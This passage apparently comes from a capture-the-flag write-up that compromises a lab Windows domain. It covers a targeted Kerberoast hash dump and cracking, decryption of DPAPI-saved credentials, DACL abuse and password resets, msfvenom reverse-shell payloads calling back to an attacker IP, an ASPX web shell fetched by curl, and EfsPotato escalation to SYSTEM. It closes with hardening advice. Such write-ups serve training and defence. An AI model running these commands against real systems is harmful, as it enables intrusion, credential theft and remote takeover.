706eb5732d52c0d4219d85f5acf5fc062480938b6bd88c61a5ecbfe5b65bd318044fb721416bd37f627e73b0347cd6314e89612cbe5aeb043c895b
[VERBOSE] SPN removed successfully for (paul.roberts)
[VERBOSE] SPN added successfully for (nina.soto)
[+] Printing hash for (nina.soto)
$krb5tgs$23$*nina.soto$CITY.LOCAL$city.local/nina.soto*$0e026c905cda12e23e0a7a87841f8344$dce24ca2f4c0bf1608ad137f483b18709762d35c6d10e1895e72b2c71a12d5726f549209547453275a90f2cc9943c668f93542e6ca27ca87a96738df49ad6b9036f1917adac53d3366166831c4de2ef36f3615e6242b3b00228705bceb3f156b8191a4d20b2d1e73f1227375d08520be2e102ed050464e762df48e9c72c850268221c519e3058c72212a0e8502b9db6c82e47341293457ddc23a3edc6d0853a120934d106a00c17fdad5ed4b458e8a1a786ed7aa9c1c28c51f7b19e2e5434a0aa92d65bedf6aba4b184f91cb34cad416a0af3ec986187f4a131e0bc4f8bf0cc7f993ef15bd04ec18b77f4c1dbf886d80d5d751212200befb5c38eafc6fc8c69956d61457587356f50359e784e1f1d568ab181794ee18da0899ee12cb48041dd37d7cd82947a99e9de019e7b381052a52075adc0564ee9375347afcfa30cd5c4df5fef9fe08aa3a22d2433aafb90384714334131d8356d11546100b3f62212da1ed65bd538403ddd4e2c7e58482f16535e2e6ec563355d7cbd13dae75d5ba37669d728f94fb4cfe6c93dc59af9b7e3a8fe06aceb4a6dbbe164702f44682886942b80784fa3b17f99c541fd6c6d88ba1c1180754f66f431a380d3cf65f807371686cdae9b82450ffcebd1482ff84ad2c8b5aee8f51b7e4c6941959aca31cd43a9a8e32fa70e932edea448e2f039474e0b033e8cd232544ec526457ea6e38adb76cc68eeabc9bcb44ab9049e2d288bfd051ff553af3ada2f79de2fe375fc085e09735ef0734c46975d17de819e9c6751ce2a677a0d2df3c023f6912834abab1e99f5bf7ca23a345f2a4b90402ae8278f7cb0e3a3595e4e88912c3f8be7ce7071f7b974c5e2c1e52a42ef53571909b07383c3e6915e1044412ec5efedb31302cc032fb4b6f6a3701c75f6a7bb98a6fd19877f70f908027088797eda4b0ac14c6972080737cd624a8bf304b2bd43f160b644f95b99f94b5250cbd20b3e499a1f9032967c263ec68c56819774fb15814554589397fc4c6bb91dd56e2418b22ab861a72d9287188d44367133840da027e513778353d343e32acd4be8b43221424ddc3d5a4c44512b40a9902032998926a9734fe4bc5d8f695b97716f0c76ce3e96f7b361dfacf26935d06366cd248b7438b1295aa6d1ea13500e0879a5120fb6ab7bf51f9ba65951dbb7cb875c934ae1d626ee1344ec852acf9cbfa043ec2f97fa929c35973f8d07ae524ca83718a9a66ebb5a28049300b5d58dd060df4cf0ef951f3c629a9d74ec69d08ac03934df877ed2eb0ca681727c176edc524825f9247f2e5ee1eb35450adf8373908615199aeb7d3202359a5e46a16741fa3878ba033770d0bb5c7ab430bebfbb40148168ba21dbe81c70092345c3e021db34a7c6d793386ddfbf00c4b0ab5daa8f15a4c657220255fd4c19b455481a91b88ff7567081f82709f10224ea08419f67a9d895a0ddadd0d647b9e3205
[VERBOSE] SPN removed successfully for (nina.soto)
```



*targetedKerberoast.py setting and removing an SPN on each target and returning their service tickets*

The run also prints a hash for `clerk.john`, who already carried an SPN. We save all four to `targeted_kerberoast_hashes.txt` and crack them.

```
john targeted_kerberoast_hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

```
Using default input encoding: UTF-8
Loaded 4 password hashes with 4 different salts (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
clerkhill        (?)     
mariadbzt1221    (?)     
123nina321       (?)     
3g 0:00:00:06 DONE (2026-08-18 18:24) 0.4310g/s 2060Kp/s 5082Kc/s 5082KC/s !!12Honey..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```



*john recovering three of the four passwords from the targeted Kerberoast tickets*

Three of four. One is `clerkhill`, which we already have. john prints the passwords without naming the accounts, so we test the two new ones.

```
nxc smb 10.1.140.119 -u 'maria.clerk' -p 'mariadbzt1221' --shares
```

```
SMB         10.1.140.119    445    DC-CC            [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-CC) (domain:city.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.140.119    445    DC-CC            [+] city.local\maria.clerk:mariadbzt1221 
SMB         10.1.140.119    445    DC-CC            [*] Enumerated shares
SMB         10.1.140.119    445    DC-CC            Share           Permissions     Remark
SMB         10.1.140.119    445    DC-CC            -----           -----------     ------
SMB         10.1.140.119    445    DC-CC            ADMIN$                          Remote Admin
SMB         10.1.140.119    445    DC-CC            Backups                         
SMB         10.1.140.119    445    DC-CC            C$                              Default share
SMB         10.1.140.119    445    DC-CC            IPC$            READ            Remote IPC
SMB         10.1.140.119    445    DC-CC            NETLOGON        READ            Logon server share 
SMB         10.1.140.119    445    DC-CC            SYSVOL          READ            Logon server share 
SMB         10.1.140.119    445    DC-CC            Uploads            
```


*Validating maria.clerk credentials with NetExec*

`maria.clerk` is valid with no new share access.

```
nxc smb 10.1.140.119 -u 'nina.soto' -p '123nina321' --shares
```

```
SMB         10.1.140.119    445    DC-CC            [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-CC) (domain:city.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.140.119    445    DC-CC            [+] city.local\nina.soto:123nina321 
SMB         10.1.140.119    445    DC-CC            [*] Enumerated shares
SMB         10.1.140.119    445    DC-CC            Share           Permissions     Remark
SMB         10.1.140.119    445    DC-CC            -----           -----------     ------
SMB         10.1.140.119    445    DC-CC            ADMIN$                          Remote Admin
SMB         10.1.140.119    445    DC-CC            Backups         READ            
SMB         10.1.140.119    445    DC-CC            C$                              Default share
SMB         10.1.140.119    445    DC-CC            IPC$            READ            Remote IPC
SMB         10.1.140.119    445    DC-CC            NETLOGON        READ            Logon server share 
SMB         10.1.140.119    445    DC-CC            SYSVOL          READ            Logon server share 
SMB         10.1.140.119    445    DC-CC            Uploads       
```



*Validating nina.soto credentials with NetExec, showing READ on the Backups share*

`nina.soto` is valid and picks up READ on `Backups`. Both new passwords are accounted for, so `paul.roberts` is the one `rockyou.txt` does not cover.

## Access as emma.hayes

We connect to `Backups` and list it.

```
smbclient //10.1.140.119/Backups -U 'nina.soto%123nina321'
```

```
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Oct 30 12:55:14 2025
  ..                                  D        0  Thu Oct 30 12:55:14 2025
  Documents Backup                   Dn        0  Thu Oct 30 12:55:14 2025
  UserProfileBackups                 Dn        0  Thu Oct 30 14:55:27 2025

                12966143 blocks of size 4096. 8370737 blocks available
smb: \> cd UserProfileBackups
smb: \UserProfileBackups\> dir
  .                                  Dn        0  Thu Oct 30 14:55:27 2025
  ..                                 Dn        0  Thu Oct 30 14:55:27 2025
  clerk.john_ProfileBackup_0729.wim     An 69883158  Thu Oct 30 12:23:22 2025
  sam.brooks_ProfileBackup_0728.wim      A   130326  Thu Oct 30 14:55:12 2025

                12966143 blocks of size 4096. 8370481 blocks available
smb: \UserProfileBackups\> mget *
Get file clerk.john_ProfileBackup_0729.wim? y
getting file \UserProfileBackups\clerk.john_ProfileBackup_0729.wim of size 69883158 as clerk.john_ProfileBackup_0729.wim (6197.9 KiloBytes/sec) (average 6197.9 KiloBytes/sec)
Get file sam.brooks_ProfileBackup_0728.wim? y
getting file \UserProfileBackups\sam.brooks_ProfileBackup_0728.wim of size 130326 as sam.brooks_ProfileBackup_0728.wim (413.2 KiloBytes/sec) (average 6040.5 KiloBytes/sec)
```



*The UserProfileBackups folder holding profile images for clerk.john and sam.brooks*

Two profile images, one for `clerk.john` and one for `sam.brooks`, an account we have not seen yet. A `.wim` is a Windows imaging archive, so 7z extracts it like any other container. We take the unfamiliar account first.

```
7z x sam.brooks_ProfileBackup_0728.wim  -o./sam_brooks
```

An email sits on the desktop inside the profile.

```
cat message_sam.eml
```

```
Subject: Notice: web_admin account moved to Quarantine OU

Hi Sam,

This is to inform you that the web_admin account has been moved to the Quarantine OU following security concerns identified during recent system activity.
The web server has ASP.NET enabled and file uploads of .aspx pages are possible; in combination with the web_admin account this creates a scenario could be used to escalate privileges or perform unauthorized actions.

No production impact has been confirmed, but the account has been isolated for forensic review as a precautionary measure.

If you require any temporary access or need updates regarding the investigation, please contact Emma Hayes (Helpdesk) at emma.hayes for coordination and approval.

Regards,
Administrator
IT Operations

(Ref: CHGWEBAD  
```



*The email sitting on the sam.brooks desktop inside the extracted profile image*

A `web_admin` account exists, it is parked in an organizational unit called `QUARANTINE`, and the reason given is that the web server accepts `.aspx` uploads. Nothing else in the profile is useful, so we move to `clerk.john`.

```
7z x clerk.john_ProfileBackup_0729.wim  -o./clerk_john
```

An email sits on this desktop as well.

```
cat 2025-10-30_Emma-Hayes_to_Clerk-John_Temporary-Access_DPAPI.eml
```

```
Subject: Temporary access while I’m on vacation

Hi John,

Quick heads-up: while I’m on vacation, you may use my account to handle urgent IT tasks.

Credentials
I’ll share the credentials with you via our approved channel. Please store them in Windows Credential Manager (Control Panel → User Accounts → Credential Manager → Windows Credentials → Add a Windows credential) and use them from there.

DPAPI note (why Credential Manager):
Windows Credential Manager protects saved credentials with DPAPI—they’re encrypted to your user profile (and this machine), so the password isn’t stored in plaintext. Still, treat it as sensitive: accounts with LOCAL SYSTEM / domain admin privileges can technically recover DPAPI-protected secrets, so only use it on trusted machines and profiles, and never export or sync these creds.

When I’m back
On my return, please remove the stored credential from Credential Manager. As discussed, your temporary membership in the “Remote Management” group will be revoked after my vacation.

Security reminders

Use the account only for work-related actions you’d normally escalate to IT.

Don’t save the password anywhere else or forward it.

Log off when finished and avoid keeping interactive sessions open.

Thanks for covering!

Best,
Emma Hayes
Helpdesk / IT Support
emma.hayes@city.local   
```



*The temporary access arrangement, including the note on how Credential Manager protects what it stores*

`emma.hayes` shared her account with `clerk.john` and told him to keep it in Credential Manager. Windows Credential Manager encrypts saved credentials with DPAPI (Data Protection API), keyed to the user's profile and password. Both halves sit in the profile image. The master key lives under `Protect`, in a folder named for the user's SID (security identifier).

```
find . -path '*Microsoft/Protect*'
```

```
./AppData/Roaming/Microsoft/Protect
./AppData/Roaming/Microsoft/Protect/CREDHIST
./AppData/Roaming/Microsoft/Protect/S-1-5-21-407732331-1521580060-1819249925-1103
./AppData/Roaming/Microsoft/Protect/S-1-5-21-407732331-1521580060-1819249925-1103/Preferred
./AppData/Roaming/Microsoft/Protect/S-1-5-21-407732331-1521580060-1819249925-1103/de222e76-cb5d-418f-a1c2-7e4e9dfe29e1
./AppData/Roaming/Microsoft/Protect/S-1-5-21-407732331-1521580060-1819249925-1103/BK-CITY
./AppData/Roaming/Microsoft/Protect/SYNCHIST
```



*The Protect folder inside the clerk.john profile image, with the master key stored under the user's SID*

The encrypted credential blob sits alongside it under `Credentials`.

```
find . -path '*Microsoft/Credentials*'
```

```
./AppData/Local/Microsoft/Credentials
./AppData/Roaming/Microsoft/Credentials
./AppData/Roaming/Microsoft/Credentials/03128079C6E14F37F5AEBDD69E344291
```



*The Credentials folder holding the saved credential blob written by Credential Manager*

We work from the `Protect` folder so the paths stay short.

```
cd AppData/Roaming/Microsoft/Protect
```

We have `clerk.john`'s password, so we decrypt the master key first.

```
impacket-dpapi masterkey -file ./S-1-5-21-407732331-1521580060-1819249925-1103/de222e76-cb5d-418f-a1c2-7e4e9dfe29e1 -sid S-1-5-21-407732331-1521580060-1819249925-1103 -password 'clerkhill'
```

```
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[MASTERKEYFILE]
Version     :        2 (2)
Guid        : de222e76-cb5d-418f-a1c2-7e4e9dfe29e1
Flags       :        0 (0)
Policy      :        0 (0)
MasterKeyLen: 00000088 (136)
BackupKeyLen: 00000068 (104)
CredHistLen : 00000000 (0)
DomainKeyLen: 00000174 (372)

Decrypted key with User Key (MD4 protected)
Decrypted key: 0xedfc873c4b843cb27b48cb55d829bc24c8d2be3fd50ce2aa7ba72b8da6ec65afd41412dfecd16f38a120cadf4089dabb9a1817874e37bbf0d6861117a39dfbbd
```



*impacket-dpapi decrypting the clerk.john profile master key with the cracked password*

The decrypted key unlocks the credential blob.

```
impacket-dpapi credential -file ../Credentials/03128079C6E14F37F5AEBDD69E344291 -key '0xedfc873c4b843cb27b48cb55d829bc24c8d2be3fd50ce2aa7ba72b8da6ec65afd41412dfecd16f38a120cadf4089dabb9a1817874e37bbf0d6861117a39dfbbd'
```

```
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[CREDENTIAL]
LastWritten : 2025-10-30 15:53:55+00:00
Flags       : 0x00000030 (CRED_FLAGS_REQUIRE_CONFIRMATION|CRED_FLAGS_WILDCARD_MATCH)
Persist     : 0x00000003 (CRED_PERSIST_ENTERPRISE)
Type        : 0x00000002 (CRED_TYPE_DOMAIN_PASSWORD)
Target      : Domain:target=emma-exclusive-access
Description : 
Unknown     : 
Username    : city.local\emma.hayes
Unknown     : !Gemma4James!
```



*The stored credential decrypting to emma.hayes and her plaintext password*

That gives us `emma.hayes:!Gemma4James!`. We validate against SMB and enumerate shares.

```
nxc smb 10.1.140.119 -u 'emma.hayes' -p '!Gemma4James!' --shares
```

```
SMB         10.1.140.119    445    DC-CC            [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-CC) (domain:city.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.140.119    445    DC-CC            [+] city.local\emma.hayes:!Gemma4James! 
SMB         10.1.140.119    445    DC-CC            [*] Enumerated shares
SMB         10.1.140.119    445    DC-CC            Share           Permissions     Remark
SMB         10.1.140.119    445    DC-CC            -----           -----------     ------
SMB         10.1.140.119    445    DC-CC            ADMIN$                          Remote Admin
SMB         10.1.140.119    445    DC-CC            Backups                         
SMB         10.1.140.119    445    DC-CC            C$                              Default share
SMB         10.1.140.119    445    DC-CC            IPC$            READ            Remote IPC
SMB         10.1.140.119    445    DC-CC            NETLOGON        READ            Logon server share 
SMB         10.1.140.119    445    DC-CC            SYSVOL          READ            Logon server share 
SMB         10.1.140.119    445    DC-CC            Uploads       
```



*Validating emma.hayes credentials with NetExec*

Credentials are valid, with no new share access.

## Shell as sam.brooks (user.txt)

`emma.hayes` carries a long list of outbound object control in BloodHound. `WriteDacl` over `sam.brooks` is the first piece worth taking.



*BloodHound WriteDacl: emma.hayes over sam.brooks*

`sam.brooks` sits in Remote Management Users, which makes it a session on the domain controller itself.



*BloodHound showing sam.brooks membership in Remote Management Users*

`WriteDacl` lets us rewrite the object's DACL, so we grant ourselves full control over it directly.

```
impacket-dacledit -action 'write' -rights 'FullControl' -principal 'emma.hayes' -target 'sam.brooks' 'city.local'/'emma.hayes':'!Gemma4James!'
```

```
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20260818-185451.bak
[*] DACL modified successfully!
```



*dacledit writing FullControl for emma.hayes onto the sam.brooks object*

Full control includes the password reset primitive, so we force a change on `sam.brooks`.

```
net rpc password 'sam.brooks' '0xB1rdWasHere1337!' -U 'city.local/emma.hayes%!Gemma4James!' -S 10.1.140.119
```

The command returns silently, so we validate.

```
nxc smb 10.1.140.119 -u 'sam.brooks' -p '0xB1rdWasHere1337!' --shares
```

```
SMB         10.1.140.119    445    DC-CC            [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-CC) (domain:city.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.140.119    445    DC-CC            [-] city.local\sam.brooks:0xB1rdWasHere1337! STATUS_ACCOUNT_DISABLED 
```



*sam.brooks authentication rejected with STATUS_ACCOUNT_DISABLED after the password change*

The password change worked, but `STATUS_ACCOUNT_DISABLED` means the account cannot authenticate at all. Full control also lets us write the account's attributes, so we clear the `ACCOUNTDISABLE` flag out of `userAccountControl`.

```
bloodyad --host 10.1.140.119 -d city.local -u 'emma.hayes' -p '!Gemma4James!' remove uac 'sam.brooks' -f ACCOUNTDISABLE
```

```
[+] ['ACCOUNTDISABLE'] property flags removed from sam.brooks's userAccountControl
```



*bloodyAD removing ACCOUNTDISABLE from the sam.brooks userAccountControl value*

```
nxc smb 10.1.140.119 -u 'sam.brooks' -p '0xB1rdWasHere1337!' --shares
```

```
SMB         10.1.140.119    445    DC-CC            [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-CC) (domain:city.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.140.119    445    DC-CC            [+] city.local\sam.brooks:0xB1rdWasHere1337! 
SMB         10.1.140.119    445    DC-CC            [*] Enumerated shares
SMB         10.1.140.119    445    DC-CC            Share           Permissions     Remark
SMB         10.1.140.119    445    DC-CC            -----           -----------     ------
SMB         10.1.140.119    445    DC-CC            ADMIN$                          Remote Admin
SMB         10.1.140.119    445    DC-CC            Backups                         
SMB         10.1.140.119    445    DC-CC            C$                              Default share
SMB         10.1.140.119    445    DC-CC            IPC$            READ            Remote IPC
SMB         10.1.140.119    445    DC-CC            NETLOGON        READ            Logon server share 
SMB         10.1.140.119    445    DC-CC            SYSVOL          READ            Logon server share 
SMB         10.1.140.119    445    DC-CC            Uploads    
```



*Validating sam.brooks credentials with NetExec after re-enabling the account*

The account is live, so we take the WinRM session.

```
evil-winrm -i '10.1.140.119' -u 'sam.brooks' -p '0xB1rdWasHere1337!'
```



*The Evil-WinRM session as sam.brooks, with user.txt listed on the desktop*

## Access as web_admin

That leaves `web_admin`. Back on the same graph, `emma.hayes` holds `WriteDacl` over the `CITYOPS` OU and `GenericWrite` over both `web_admin` and the `QUARANTINE` OU it sits in.

An object's place in the directory is its distinguished name, so moving `web_admin` into `CITYOPS` means rewriting that name. First we take full control of `CITYOPS`, with `-inheritance` so the rights carry down to the objects inside it.

```
impacket-dacledit -action 'write' -rights 'FullControl' -inheritance -principal 'emma.hayes' -target-dn 'OU=CITYOPS,DC=city,DC=local' 'city.local'/'emma.hayes':'!Gemma4James!'
```

```
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20260818-211140.bak
[*] DACL modified successfully!
```



*dacledit writing inheritable FullControl for emma.hayes onto the CITYOPS OU*

Now we rewrite the distinguished name and move the account across.

```
bloodyad --host 10.1.140.119 -d city.local -u 'emma.hayes' -p '!Gemma4James!' set object 'CN=WEB ADMIN,OU=QUARANTINE,DC=CITY,DC=LOCAL' distinguishedName -v 'CN=WEB ADMIN,OU=CITYOPS,DC=CITY,DC=LOCAL'
```

```
[+] CN=WEB ADMIN,OU=QUARANTINE,DC=CITY,DC=LOCAL's distinguishedName has been updated
```



*bloodyAD rewriting the web_admin distinguished name to move it into the CITYOPS OU*

With the account in an OU we control, we reset its password.

```
net rpc password 'web_admin' '0xB1rdWasHere1337!' -U 'city.local/emma.hayes%!Gemma4James!' -S 10.1.140.119
```

Silent again, so we validate.

```
nxc smb 10.1.140.119 -u 'web_admin' -p '0xB1rdWasHere1337!' --shares
```

```
SMB         10.1.140.119    445    DC-CC            [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC-CC) (domain:city.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.1.140.119    445    DC-CC            [+] city.local\web_admin:0xB1rdWasHere1337! 
SMB         10.1.140.119    445    DC-CC            [*] Enumerated shares
SMB         10.1.140.119    445    DC-CC            Share           Permissions     Remark
SMB         10.1.140.119    445    DC-CC            -----           -----------     ------
SMB         10.1.140.119    445    DC-CC            ADMIN$                          Remote Admin
SMB         10.1.140.119    445    DC-CC            Backups                         
SMB         10.1.140.119    445    DC-CC            C$                              Default share
SMB         10.1.140.119    445    DC-CC            IPC$            READ            Remote IPC
SMB         10.1.140.119    445    DC-CC            NETLOGON        READ            Logon server share 
SMB         10.1.140.119    445    DC-CC            SYSVOL          READ            Logon server share 
SMB         10.1.140.119    445    DC-CC            Uploads                                                                                       
```



*Validating web_admin credentials with NetExec after the OU move and password reset*

## Shell as web_admin

`web_admin` is not in Remote Management Users, so WinRM is out. [RunasCs](https://github.com/antonioCoco/RunasCs) starts a process under another user's credentials from a session we already have, so we run it out of the `sam.brooks` shell. First we build the payload it will launch.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.200.47.7 LPORT=1337 -f exe -o reverse.exe
```

```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 7168 bytes
Saved as: reverse.exe
```

Then we pull down RunasCs itself.

```
git clone https://github.com/antonioCoco/RunasCs.git
```

Both files go up through the `sam.brooks` session.

```
evil-winrm -i '10.1.140.119' -u 'sam.brooks' -p '0xB1rdWasHere1337!'
```

```
cd C:\Temp
upload RunasCs.cs
upload reverse.exe
```

RunasCs ships as source, so we check what compilers are on the host.

```
cd C:\Windows\Microsoft.NET\Framework64\
dir
```

```
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/24/2025   6:50 AM                v2.0.50727
d-----       10/24/2025   6:50 AM                v3.0
d-----       10/24/2025   6:50 AM                v3.5
d-----        8/18/2026   3:02 PM                v4.0.30319
-a----        9/15/2018  12:11 AM           8704 sbscmp10.dll
-a----        9/15/2018  12:11 AM           8704 sbscmp20_mscorwks.dll
-a----        9/15/2018  12:11 AM           8704 sbscmp20_perfcounter.dll
-a----        9/15/2018  12:11 AM           8704 SharedReg12.dll
```



*The .NET Framework directory on DC-CC, with v4.0.30319 available for csc.exe*

v4.0.30319 is there, so we compile with its `csc.exe`.

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe -target:exe -optimize -out:RunasCs.exe RunasCs.cs
```

We start Penelope, a reverse shell handler, and leave it listening on 1337.

```
penelope -p 1337
```

We give RunasCs the `web_admin` credentials and `reverse.exe` to launch, so the shell that calls back is running as that account.

```
.\RunasCs.exe 'web_admin' '0xB1rdWasHere1337!' reverse.exe
```

Penelope catches the shell.

```
whoami
```

```
city\web_admin
```



*Penelope receiving the RunasCs reverse shell running as city\web_admin*

## Shell as IIS APPPOOL\DefaultAppPool

`web_admin` can write to `C:\inetpub\wwwroot`, and the site runs ASP.NET, so an `.aspx` page dropped in the web root executes as the application pool identity when we request it. We take [borjmz's aspx-reverse-shell](https://github.com/borjmz/aspx-reverse-shell) and set the callback IP and port inside it to our own, then serve it from our host.

```
python3 -m http.server 8081
```

From `C:\inetpub\wwwroot` in the `web_admin` shell we pull it down.

```
curl http://10.200.47.7:8081/shell.aspx -o shell.aspx
```



*curl pulling shell.aspx into C:\inetpub\wwwroot from the web_admin shell*

Penelope goes up on 1338, the port set in `shell.aspx`.

```
penelope -p 1338
```

Requesting the page in a browser executes it.

```
http://10.1.140.119/shell.aspx
```



*Penelope receiving the ASPX reverse shell as iis apppool\defaultapppool*

## Shell as NT AUTHORITY\SYSTEM (root.txt)

Privileges are the first thing to check on a service identity.

```
whoami /priv
```

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```



*The application pool identity holding SeImpersonatePrivilege in an enabled state*

`SeImpersonatePrivilege` lets a process take on the identity of any client that connects to it, including a privileged one. [EfsPotato](https://github.com/zcgonvh/EfsPotato) turns that into SYSTEM execution by coercing a SYSTEM service into connecting to a named pipe it controls, then impersonating that connection. We upload the source into `C:\Temp` through the `sam.brooks` session, then compile and run it from the application pool shell, which is the session holding the privilege.

```
upload EfsPotato.cs
```

```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe -target:exe -optimize -out:EfsPotato.exe EfsPotato.cs
```

We test it before wiring up a shell.

```
.\EfsPotato.exe whoami
```

```
[+] Current user: IIS APPPOOL\DefaultAppPool
[+] Pipe: \pipe\lsarpc
[!] binding ok (handle=140da10)
[+] Get Token: 816
[!] process with pid: 2808 created.
==============================
nt authority\system
```



*EfsPotato spawning a process as nt authority\system from the application pool identity*

That is SYSTEM. We build a 64-bit payload for the shell and upload it to `C:\Temp`.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.200.47.7 LPORT=1339 -f exe -o 0xB1rd.exe
```

```
upload 0xB1rd.exe
```

```
penelope -p 1339
```

EfsPotato launches it as SYSTEM.

```
.\EfsPotato.exe 0xB1rd.exe
```

Penelope catches the shell as `nt authority\system`, and root.txt is on the Administrator desktop.



*Penelope holding a SYSTEM shell with root.txt listed on the Administrator desktop*

## Final Thoughts

A `.bin` download on a council website shipped a domain credential in the clear on submission, and the first capture had it. `sam.brooks` came back `STATUS_ACCOUNT_DISABLED`, and clearing that flag turned out to be the same right I used to reset the password. Three emails did most of the navigation.

A client application should never carry the service account credential it authenticates with. An SPN on a regular user account belongs on a gMSA, so a roasted ticket produces nothing crackable. A share one user can write to and another browses gives up their hashes. Profile backups carry DPAPI material and do not belong on a user-readable share. Object-level rights like these need auditing on a schedule rather than at build time, and an OU is no quarantine when the distinguished name is writable. Write access to the web root is SYSTEM access, because the application pool identity holds `SeImpersonatePrivilege`.

— 0xB1rd
